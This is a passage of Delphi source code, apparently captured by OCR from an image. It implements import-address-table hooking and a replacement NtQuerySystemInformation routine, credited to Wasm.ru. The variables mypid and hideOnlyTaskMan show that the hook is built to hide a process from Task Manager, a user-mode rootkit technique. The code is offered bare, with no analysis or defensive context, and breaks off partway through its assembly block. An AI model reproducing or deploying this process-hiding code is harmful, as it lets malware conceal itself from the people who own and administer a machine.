     procedure ReplaceIATEntryInOneMod(pszCallerModName: Pchar; pfnCurrent: FarProc;
      pfnNew: FARPROC; hmodCaller: hModule);
    var
      ulSize: ULONG;
      pImportDesc: PIMAGE_IMPORT_DESCRIPTOR;
      pszModName: PChar;
      pThunk: PDWORD;
      ppfn: PFARPROC;
      ffound: LongBool;
      written: DWORD;
    begin
      pImportDesc := ImageDirectoryEntryToData(Pointer(hmodCaller), TRUE,
        IMAGE_DIRECTORY_ENTRY_IMPORT, ulSize);
      if pImportDesc = nil then
        exit;
      while pImportDesc.Name <> 0 do
      begin
        pszModName := PChar(hmodCaller + pImportDesc.Name);
        if (lstrcmpiA(pszModName, pszCallerModName) = 0) then
          break;
        Inc(pImportDesc);
      end;
      if (pImportDesc.Name = 0) then
        exit;
      pThunk := PDWORD(hmodCaller + pImportDesc.FirstThunk);
      while pThunk^ <> 0 do
      begin
        ppfn := PFARPROC(pThunk);
        fFound := (ppfn^ = pfnCurrent);
        if (fFound) then
        begin
          VirtualProtectEx(GetCurrentProcess, ppfn, 4, PAGE_EXECUTE_READWRITE,
            written);
          WriteProcessMemory(GetCurrentProcess, ppfn, @pfnNew, sizeof(pfnNew),
            Written);
          exit;
        end;
        Inc(pThunk);
      end;
    end;
     
    var
      addr_NtQuerySystemInformation: Pointer;
      mypid: DWORD;
      fname: PCHAR;
      mapaddr: PDWORD;
      hideOnlyTaskMan: PBOOL;
     
      { By Wasm.ru}
     
    function myNtQuerySystemInfo(SystemInformationClass: SYSTEM_INFORMATION_CLASS;
      SystemInformation: Pointer;
      SystemInformationLength: ULONG; ReturnLength: PULONG): LongInt; stdcall;
    label
      onceagain, getnextpidstruct, quit, fillzero;
    asm
    push ReturnLength
    push SystemInformationLength
    push SystemInformation
    push dword ptr SystemInformationClass
    call dword ptr [addr_NtQuerySystemInformation]
    or eax,eax
    jl quit
    cmp SystemInformationClass,SystemProcessesAndThreadsInformation
    jne quit